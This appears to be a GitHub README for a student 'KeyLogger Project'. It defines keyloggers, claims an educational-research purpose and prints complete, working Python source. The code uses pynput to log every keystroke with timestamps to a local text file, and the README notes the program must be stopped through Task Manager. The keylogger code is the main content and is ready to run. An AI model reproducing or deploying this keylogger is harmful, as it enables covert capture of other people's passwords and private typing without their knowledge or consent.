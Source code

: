 ##### [LinkedIn](https://www.linkedin.com/in/allana-gibson/)
##### [Merit Page](https://meritpages.com/Allana-Gibson/5963308)

## KeyLogger Project

- A keylogger is a type of monitoring software `or malware` that is used to collect every keystroke the user types.
#### Reasons for use:
1. Hackers trying to access **personal data**.
2. IT organizations attempting to troubleshoot **technical problems**.

- I did this for educational research ONLY.

### Here is the source code of my program (in python):

```markdown
from pynput.keyboard import Key, Listener
import logging

logKeystroke = ""

logging.basicConfig(filename=(logKeystroke + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
                                                                   # prints the text with date & time
def on_press(key):
    logging.info(str(key)) #when a key is pressed it will store the info in file

with Listener(on_press=on_press) as listener:
    listener.join()

```
- The output will extract a `.txt` file on to the folder displaying every keystroke pressed.
- The user will have to terminate the program in `Task Manager` to end the application.

### Here is a picture of the output file:
![snippen2](https://user-images.githubusercontent.com/53357849/154188508-899104ba-b2a2-4264-bd5e-d8b9ad0b3fdc.png)
